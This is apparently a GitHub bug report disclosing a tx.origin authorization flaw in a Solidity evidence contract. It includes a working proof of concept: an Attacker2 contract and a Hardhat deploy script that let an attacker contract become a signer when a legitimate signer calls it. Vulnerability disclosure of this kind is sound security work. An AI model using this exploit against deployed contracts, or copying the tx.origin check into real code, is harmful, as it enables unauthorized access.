

## Problematic code design (tx.origin) that allows attacker to pass the authority check

**Describie the bug**

The contract *Evidence* used by *MarriageEvidence.sol* contains a bug that can make the attacker pass the authority check because of `tx.origin`. For instance, the function *addSignatures* check whether the `tx.origin` is one of the signed addresses, and calls push the `tx.origin` address to the signers array. The attacker can make use of the authority check when signers wrongly call the attacker's maldesigned function, and to become the signer without permission. The situation is similar to the case of *CarbonFurgalEvidence*.

```solidity
//添加签名者地址（此地址必须为合约签名者地址）
    function addSignatures() public returns(bool) {
        for(uint i= 0 ;i<signers.length ;i++)
        {
            //此时的tx.orgin为当前调用此方法的调用者地址
            if(tx.origin == signers[i])
            {
                // use tx.origin to pass the check
                console.log("pass the authority check, successful attack.");
                addRepeatSignaturesEvent(evidence);
                return true;
            }
        }
       if(CallVerify(tx.origin))
       {
            signers.push(tx.origin);
            addSignaturesEvent(evidence);
            return true;
       }
       else
       {
           errorAddSignaturesEvent(evidence,tx.origin);
           return false;
       }
    }
```


**To Reproduce**

Steps to reproduce the behavior:

1. prepare harhat testing environment

2. copy problematic *CarbonFrugalEvidence* with inserted log output statement (lines 9 shown above) which are used in test to a created directory `contracts`

3. create an attacker contract instance that can utilize the vulnerability `Attacker2`

   ```solidity
   pragma solidity ^0.4.24;
   import "hardhat/console.sol";
   import "./Evidence.sol";
   
   interface IEvidence {
       function addSignatures() public returns(bool);
   }
   
   contract Attacker2 {
       
       address _evidence;
   
       constructor(address evidence) {
           _evidence = evidence;
       }
   
       function callback() public returns (bool){
           console.log(msg.sender);
           bool state = IEvidence(_evidence).addSignatures();
           // test the success of attack using tx.origin
           console.log("state: %s", state);
           return state;
       }
   
   }
   ```
   
   In this contract, if the signer of contract `Evidence` calls the *callback()*, then the attacker contract can invoke the *addSignatures* to pass the authority check (cause the `tx.origin` is still the admin), thus making itself permitted and become the signer.
   
4. create a js file `deploy2.js` and use the followed test deployment js to execute `npx hardhat run scripts/deploy2.js`

   ```js
   async function main() {
     const [deployer] = await ethers.getSigners();
   
     console.log("Deploying contracts with the account:", deployer.address);
   
     // factory address
     const evfactory = await ethers.getContractFactory("EvidenceFactory");
     const factory = await evfactory.deploy([deployer.address]);
   
     const victim = await ethers.getContractFactory("Evidence");
     const token = await victim.deploy("str", factory.address);
   
     console.log("Victim contract Evidence address:", token.address);
   
     const attacker = await ethers.getContractFactory("Attacker2");
     const att = await attacker.deploy(token.address);
     console.log("Attacker address:", att.address);
   
     const res = await att.callback();
     // console.log(res);
   }
   
   main()
     .then(() => process.exit(0))
     .catch((error) => {
       console.error(error);
       process.exit(1);
     });
   
   ```
   
   

**Expected behavior**

The test results will show the log `"pass the authority check, successful attack"` and get the returned value `true`, which means the attacker successfully pass the authority check with the use of `tx.origin`.


**Screenshots**

